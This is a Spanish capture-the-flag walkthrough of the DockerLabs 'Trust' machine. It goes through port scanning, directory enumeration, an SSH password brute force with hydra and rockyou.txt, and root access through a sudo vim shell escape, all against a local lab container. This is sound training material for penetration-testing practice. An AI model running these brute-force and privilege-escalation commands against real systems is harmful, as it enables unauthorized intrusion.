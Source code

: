 # Trust DockerLabs

***

## 1 - Reconocimiento

#### P1 - Verificar conectividad

```Shell
ping -c 1 172.18.0.2
```

<figure><img src="../.gitbook/assets/Trust - Conectividad.jpg" alt=""><figcaption></figcaption></figure>

#### P2 - Escaneo de puertos con nmap

```Shell
nmap -p- --open --min-rate=5000 -sS -n -Pn 172.18.0.2
```

<figure><img src="../.gitbook/assets/Trust - Escaneo de puertos.jpg" alt=""><figcaption></figcaption></figure>

## 2 - Enumeración

#### P1 - Scripts basicos de reconocimiento y versiones de los servicios

```Shell
nmap -sCV -p22,80 172.18.0.2
```

<figure><img src="../.gitbook/assets/Trust - Versiones de servicios, Scripts basicos.jpg" alt=""><figcaption></figcaption></figure>

#### P2 - Enumeración de directorios y archivos

> Vemos que tenemos el puerto 80 (http) expuesto, veamos que hay en la pagina web

<figure><img src="../.gitbook/assets/Trust - Pagina web.jpg" alt=""><figcaption></figcaption></figure>

> Nos encontramos con la pagina web por defecto de apache2, esto nos dice que es un servidor web apache2 recien instalado, como no hay nada en la pagina raiz veamos que hay en los demas directorios

```Shell
sudo gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u "http://172.18.0.2/" -x .txt,.php,.py,.sh
```

> En este caso he usado gobuster para la enumeración de directorios, pero tambien podrias usar otra herramienta como dirbuster que es la recomendada por INE para la EJPTv2

<figure><img src="../.gitbook/assets/Trust - gobuster.jpg" alt=""><figcaption></figcaption></figure>

> Entre los directorios encontrados, el unico directorio con codigo de estado 200 (exitosa) es /secret.php , vayamos a investigar que hay en ese directorio

<figure><img src="../.gitbook/assets/Trust - Directorio secreto.jpg" alt=""><figcaption></figcaption></figure>

> Dentro del directorio nos encontramos con un potencial usuario llamado Mario que mas tarde nos puede ser de gran ayuda para entrar por SSH a la maquina

#### P3 - Enumeración del servicio SSH

```Shell
ssh Mario@172.18.0.2
```

> Al intentar acceder a la máquina víctima mediante SSH, se nos solicita una contraseña. Hemos probado varias contraseñas comunes como "admin", "root", "password", etc. Pero ninguna ha funcionado. Para optimizar este proceso en el siguiente paso probaremos un ataque de fuerza bruta con hydra

## 3 - Explotación

#### P1 - Fuerza bruta con hydra

```Shell
hydra -l Mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2
```

> Tras un rato esperando vemos que hydra no logra encontrarnos la contraseña correcta para el usuario Mario, asi que probemos con mario en minuscula

```Shell
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2
```

<figure><img src="../.gitbook/assets/Trust - Hydra.jpg" alt=""><figcaption></figcaption></figure>

> Parece que hydra nos encontró la contraseña chocolate para el usuario mario, probemoslo

<figure><img src="../.gitbook/assets/Trust - ssh.jpg" alt=""><figcaption></figcaption></figure>

> Funciono, estamos dentro de la maquina, en el siguiente paso veremos como escalar privilegios con ayuda del comando sudo -l

## 4 - Escalada de privilegios

#### P1 - Sudo -l

```Shell
sudo -l
```

> Con ayuda del comando sudo -l podemos ver qué comandos podemos ejecutar con privilegios de superusuario, en este caso nos pone que podemos utilizar vim

<figure><img src="../.gitbook/assets/Trust - sudo -l.jpg" alt=""><figcaption></figcaption></figure>

> Ahora que sabemos que podemos utilizar vim como sudo, podemos probar a abrirlo

```
sudo /usr/bin/vim
```

> Podemos aprovechar para crearnos una shell con vim usando el siguiente comando

```
:!/bin/bash
```

<figure><img src="../.gitbook/assets/Trust - Shell root.jpg" alt=""><figcaption></figcaption></figure>

> Ya somos root

***
